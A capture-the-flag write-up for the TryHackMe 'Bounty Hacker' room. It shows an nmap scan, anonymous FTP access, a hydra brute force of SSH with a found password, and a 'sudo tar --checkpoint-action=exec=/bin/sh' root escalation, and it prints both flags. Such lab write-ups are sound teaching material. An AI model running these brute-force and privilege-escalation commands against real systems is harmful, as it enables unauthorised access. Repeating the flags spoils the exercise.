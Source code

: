 ###### You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
Room: https://tryhackme.com/room/cowboyhacker
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xx.xx
```
PORT      STATE  SERVICE         REASON         VERSION
20/tcp    closed ftp-data        reset ttl 63
21/tcp    open   ftp             syn-ack ttl 63 vsftpd 3.0.3
22/tcp    open   ssh             syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http            syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```
The website running on port 80 seems like a dead end.  

Anonymously login into FTP. 
* locks.txt seems to be a list of passwords.
* task.txt gives us a username, lin.

Let's try and combine these informations and bruteforce the SSH.  
**sudo** hydra -l lin -P locks.txt xx.xx.xx.xx ssh  

```
[22][ssh] host: 10.10.67.57   login: lin   password: RedDr4gonSynd1cat3
```

**First flag, content of user.txt** **[1]**  
> THM{CR1M3_SyNd1C4T3}

Checkin the **sudo -l** command, we see that we can run **tar** as root.  
According to [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo)  
**sudo tar** -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```
# whoami
root
```

**Second flag, content of /root/root.txt** **[2]**  
> THM{80UN7Y_h4cK3r}

